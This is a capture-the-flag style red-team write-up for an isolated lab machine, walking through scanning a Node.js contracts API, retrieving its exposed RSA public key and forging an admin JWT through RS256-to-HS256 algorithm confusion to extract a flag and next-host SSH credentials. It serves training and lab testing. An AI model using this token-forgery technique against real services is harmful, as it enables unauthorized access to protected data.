








# Red Team — M2: NIGCL Contracts

**Target:** `192.168.222.131:3000`  
**Attacker:** Kali Linux (`192.168.222.128`)  
**Vulnerability:** JWT RS256 → HS256 algorithm confusion  
**Original reference:** https://github.com/hacktifytechnologies/Range4/blob/main/machines/M2-nigcl-contracts/solve_red.md

> This document retains the six-step order of the original Range4 writeup. It records what was actually tested in the isolated lab and explains deviations required to make the supplied solution work. M3 was not deployed, so Step 6 is deferred. The user-provided screenshots are embedded below at their corresponding steps.

## Step 1 — Discover M2

The original solution discovers M2 from the M1 shell by scanning the DMZ for port 3000. Because M2 had a known lab address (`192.168.222.131`), we scanned that single VM directly from Kali:

```bash
nmap -sV -p 3000 192.168.222.131
curl -i http://192.168.222.131:3000/
```

**Observed:** TCP 3000 open; Node.js Express framework; HTTP `200 OK` and the *NIGCL — Contract Management System* HTML page.



*Figure: Kali Nmap result identifying Node.js Express on TCP port 3000.*


*Figure: HTTP 200 response and Contract Management System page.*

## Step 2 — Enumerate API

As in the original solution, enumerate `/api` and obtain the public verification key:

```bash
curl -s http://192.168.222.131:3000/api
curl -s http://192.168.222.131:3000/api/.well-known/public-key
```

**Observed:** `/api/.well-known/public-key` disclosed a PEM-encoded RSA public key. The supplied screenshot records the key. No separate screenshot of the `/api` endpoint listing was supplied.



*Figure: Exposed RSA public key obtained from the M2 API.*

## Step 3 — Login as Vendor (optional reference token)

The original solution uses the M1 hint's vendor credentials to request a legitimate RS256-signed reference JWT:

```bash
curl -i -X POST http://192.168.222.131:3000/api/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"vendor_liaison","password":"V3nd0r@N1GCL"}'
```

**Installation issue encountered:** The first request returned HTTP `500`, and systemd logs showed an OpenSSL DSO loading error in Node.js crypto signing. The VM had Node.js `v12.22.9` (Node OpenSSL `1.1.1m`) on Ubuntu 22.04 (system OpenSSL `3.0.2`). An RSA signing test under `www-data` passed with `OPENSSL_CONF=/dev/null`.

**Compatibility workaround applied on M2:**

```bash
sudo mkdir -p /etc/systemd/system/nigcl-contracts.service.d
printf '[Service]\nEnvironment="OPENSSL_CONF=/dev/null"\n' | \
  sudo tee /etc/systemd/system/nigcl-contracts.service.d/override.conf
sudo systemctl daemon-reload
sudo systemctl restart nigcl-contracts
```

After this service-specific workaround, the vendor login returned **HTTP 200 with a JWT**.



*Figure: Initial vendor login returning Internal Server Error.*


*Figure: Successful vendor login returning HTTP 200 and a JWT.*

Decode the JWT payload to confirm that the account is a **vendor**, not an administrator:

```bash
TOKEN=$(curl -s -X POST http://192.168.222.131:3000/api/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"vendor_liaison","password":"V3nd0r@N1GCL"}' \
  | python3 -c 'import sys,json; print(json.load(sys.stdin)["token"])')
TOKEN="$TOKEN" python3 -c '
import os,json,base64
s=os.environ["TOKEN"].split(".")[1]
s += "=" * (-len(s) % 4)
print(json.dumps(json.loads(base64.urlsafe_b64decode(s)),indent=2))
'
```

**Observed claims:** `username: vendor_liaison`, `role: vendor`, `name: William`, `iss: nigcl-contracts-api`.



*Figure: Decoded legitimate vendor JWT showing role vendor.*

## Step 4 — Forge Admin JWT (Python)

The official code signs with `jwt.encode(payload, pub, algorithm="HS256")`. On the installed Kali PyJWT version, this failed with `InvalidKeyError` because the library rejects RSA PEM keys as HMAC secrets. We reproduced the same intended RS256-to-HS256 confusion technique using Python's standard-library HMAC implementation rather than modifying the vulnerable server.

**Working file:** `m2_jwt_exploit.py` (included alongside this writeup).

```bash
python3 -m pip --version      # optional environment check
python3 m2_jwt_exploit.py
```

The script retrieves the public key, builds an HS256 JWT claiming `role=admin`, signs with that public-key byte string as the HMAC secret, and requests `/api/admin/internal`.

**Observed:** HTTP `200` from the protected administrator endpoint. The server accepted the forged token; the first admin response showed `flag_not_found` because the flag file wasn't readable by the service account.



*Figure: Forged HS256 admin token accepted with HTTP 200; flag initially missing.*

## Step 5 — Extract Flag 2 and M3 credentials

A deployment-only file permission adjustment allowed the API to read the existing flag without regenerating it:

```bash
# On M2 Ubuntu server
sudo chown root:www-data /opt/nigcl/classified2/flag2.txt
sudo chmod 640 /opt/nigcl/classified2/flag2.txt
sudo -u www-data test -r /opt/nigcl/classified2/flag2.txt && echo 'Flag readable by API'
```

Run the same tested script again on Kali:

```bash
python3 m2_jwt_exploit.py
```

**Observed:** HTTP `200`, internal restricted document content, and Flag 2:

```text
FLAG{75ba9c77ea2f43c6_jwt_alg_confusion}
```

The response also disclosed the next host name `nigcl-gateway`, SSH user `devops`, SSH password `D3v0ps@N1GCL`, and instructions referring to port 22. Treat these as exercise-only credentials.



*Figure: Successful Flag 2 extraction and M3 jump-host credentials.*

## Step 6 — Pivot to M3 — DEFERRED

The original writeup next searches the isolated DMZ for TCP/22 and attempts SSH to M3. **M3 is not deployed**, so no SSH pivot was performed or screenshot collected.


Do not blindly scan `11.0.0.0/8` on a connected network: use the actual isolated cyber-range subnet after verifying its routing and authorization.

## Red Team evidence summary

Steps 1–5 completed; Step 6 deferred. The application was intentionally vulnerable to JWT algorithm confusion. Initial runtime and file-permission problems were deployment issues, not exploitation requirements. Preserve a known-good VMware snapshot after these fixes.
